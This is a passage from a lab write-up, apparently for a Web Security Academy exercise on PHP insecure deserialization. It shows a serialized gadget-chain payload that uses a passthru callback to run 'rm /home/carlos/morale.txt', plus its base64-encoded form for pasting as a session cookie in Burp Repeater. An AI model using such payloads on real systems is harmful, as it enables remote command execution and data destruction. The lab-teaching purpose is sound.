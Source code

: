 and the output of this code is:

```
'rm' is not recognized as an internal or external command,
operable program or batch file.
O:14:"CustomTemplate":3:{s:33:"CustomTemplatedefault_desc_type";s:26:"rm /home/carlos/morale.txt";s:20:"CustomTemplatedesc";O:10:"DefaultMap":1:{s:20:"DefaultMapcallback";s:8:"passthru";}s:7:"product";O:7:"Product":1:{s:4:"desc";N;}}
===================================================
base64 endcoded then urlencoded:
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjM6e3M6MzM6IgBDdXN0b21UZW1wbGF0ZQBkZWZhdWx0X2Rlc2NfdHlwZSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MjA6IgBDdXN0b21UZW1wbGF0ZQBkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjIwOiIARGVmYXVsdE1hcABjYWxsYmFjayI7czo4OiJwYXNzdGhydSI7fXM6NzoicHJvZHVjdCI7Tzo3OiJQcm9kdWN0IjoxOntzOjQ6ImRlc2MiO047fX0%3D
```

Ignore the error, it shows that `passthru` was really executed which is a good sign, also keep in mind that the php serialized object is a binary format meaning it may contain some null characters... so if we copy-paste the cleartext part from the above output:

```php
O:14:"CustomTemplate":3:{s:33:"CustomTemplatedefault_desc_type";s:26:"rm /home/carlos/morale.txt";s:20:"CustomTemplatedesc";O:10:"DefaultMap":1:{s:20:"DefaultMapcallback";s:8:"passthru";}s:7:"product";O:7:"Product":1:{s:4:"desc";N;}}
```

It won't work, if we want to copy-paste the cleartext version, we need to edit it manually and the final payload will be something like this:

```php
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:8:"passthru";}}
```

If we don't want to edit the output and directly copy-paste the payload, as mentioned above we have to treat serialized php objects as binary format, as the `serialize` function help explains[^3]:

```
Note that this is a binary string which may include null bytes, and needs to be stored and handled as such.
For example, **serialize()** output should generally be stored in a BLOB field in a database, 
rather than a CHAR or TEXT field.
```

 That's why we base64 and url encoded the output to easily be able to copy-paste it as the session cookie. So we copy this part from the output above:

 ```
 TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjM6e3M6MzM6IgBDdXN0b21UZW1wbGF0ZQBkZWZhdWx0X2Rlc2NfdHlwZSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MjA6IgBDdXN0b21UZW1wbGF0ZQBkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjIwOiIARGVmYXVsdE1hcABjYWxsYmFjayI7czo4OiJwYXNzdGhydSI7fXM6NzoicHJvZHVjdCI7Tzo3OiJQcm9kdWN0IjoxOntzOjQ6ImRlc2MiO047fX0%3D
 ```

 and paste it here in the session cookie in the Burp suite repeater:


[^1]: [Icon](https://www.flaticon.com/free-icon/supply-chain_9183519) made by [Paul J.](https://www.flaticon.com/authors/paul-j) from [www.flaticon.com](https://www.flaticon.com).
[^2]: [Insecure deserialization \| Web Security Academy](https://portswigger.net/web-security/deserialization)
[^3]: [PHP:serialize - Manual](https://www.php.net/manual/en/function.serialize.php)